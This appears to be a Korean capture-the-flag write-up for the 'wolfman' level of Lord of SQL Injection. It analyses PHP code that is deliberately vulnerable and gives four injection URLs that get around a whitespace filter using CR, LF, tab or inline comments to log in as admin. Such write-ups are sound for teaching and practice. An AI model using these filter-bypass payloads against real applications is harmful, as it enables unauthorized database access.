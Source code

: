 # Lord of SQL Injection No.5 - wolfman

## 문제 출제 의도

공백문자(' ')를 사용하지 않고 원하는 문자열을 SELECT 하도록 SQL을 조작할 수 있는지 확인한다.

## 소스 코드 분석

wolfman 문제의 php 소스 코드는 다음과 같다.
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```
-----

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
```
* GET방식으로 pw를 받고, pw에 `prob`, `_`, `.`, `(`, `)` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.

* 또한, pw에 `공백문자(' ')` 가 들어 있으면 `No whitespace ~_~`가 뜨고 문제 풀이에 실패한다.

```php
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
```
* 받은 pw가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.

* 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 id에 "admin"이라는 값이 들어있음'이다.

-----

## Solution
    
1. CR(Carriage Return) 이용

    ASCII Code 표를 살펴보면 16진수로 0x0D는 Carriage Return에 해당한다.

    이는 MySQL에서 공백으로 인식하는 문자들 중 하나이다.

    ```
    http://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw='%0Dor%0Did='admin'--%0D-
    ```
    ```sql
    select id from prob_wolfman where id='guest' and pw='' or id='admin'-- -'
    ```

    이는 $result['id']에 'admin'이 들어가도록 하므로 문제가 풀린다.

2. LF(Line Feed)

    ASCII Code 표를 살펴보면 16진수로 0x0A는 Line Feed에 해당한다.

    이는 MySQL에서 공백으로 인식하는 문자들 중 하나이다.

    ```
    http://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw='%0Aor%0Aid='admin'%23
    ```
    ```sql
    select id from prob_wolfman where id='guest' and pw='' or id='admin'#'
    ```

    주석으로 `#`을 쓴 이유는 `-- -`을 사용할 때 가운데 공백으로 %0A를 사용하면 정상적으로 작동하지 않기 때문이다.

    이는 $result['id']에 'admin'이 들어가도록 하므로 문제가 풀린다.

3. Tab

    ASCII Code 표를 살펴보면 16진수로 0x09는 Tab에 해당한다.

    이는 MySQL에서 공백으로 인식하는 문자들 중 하나이다.

    ```
    http://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw='%09or%09id='admin'--%09-
    ```
    ```sql
    select id from prob_wolfman where id='guest' and pw=''	or	id='admin'--	-'
    ```

    이는 $result['id']에 'admin'이 들어가도록 하므로 문제가 풀린다.

4. 주석

    MySQL에서 구문 사이에 주석을 넣으면 공백이 없어도 정상적으로 동작한다.

    ```
    http://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw='/**/or/**/id='admin'%23
    ```
    ```sql
    select id from prob_wolfman where id='guest' and pw=''/**/or/**/id='admin'#'
    ```

    주석으로 `#`을 쓴 이유는 `-- -`을 사용할 때 가운데 공백으로 주석을 사용하면 정상적으로 작동하지 않기 때문이다.

    이는 $result['id']에 'admin'이 들어가도록 하므로 문제가 풀린다.
